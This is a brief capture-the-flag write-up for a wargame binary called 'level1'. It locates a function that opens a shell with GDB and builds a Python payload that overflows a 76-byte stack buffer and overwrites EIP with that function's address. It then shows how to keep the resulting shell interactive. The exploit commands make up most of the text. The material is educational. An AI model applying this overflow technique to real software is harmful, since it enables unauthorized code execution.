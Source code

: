 After decompiling the code we can see a buffer of 76 bytes in the main and a run function that open a shell.

Using GDB we can see the run function address

```
(gdb) info function
[...]
0x08048444  run
[...]

```

Using python we create an input to fill our buffer and overwrite
the EIP registre with the run function address in little endian.

```
python3 -c "print('A' * 76 + '\x44\x84\x04\x08')" > output.txt

```

As we run level1 with our file as input the shell is non interactive and quit 
after executing the run function.To force the shell to be interactive we add 
```-``` to our ```cat``` command to print stdin after the content of our file
and force the program to wait for user input.

```
cat /tmp/output.txt  - | ./level1

```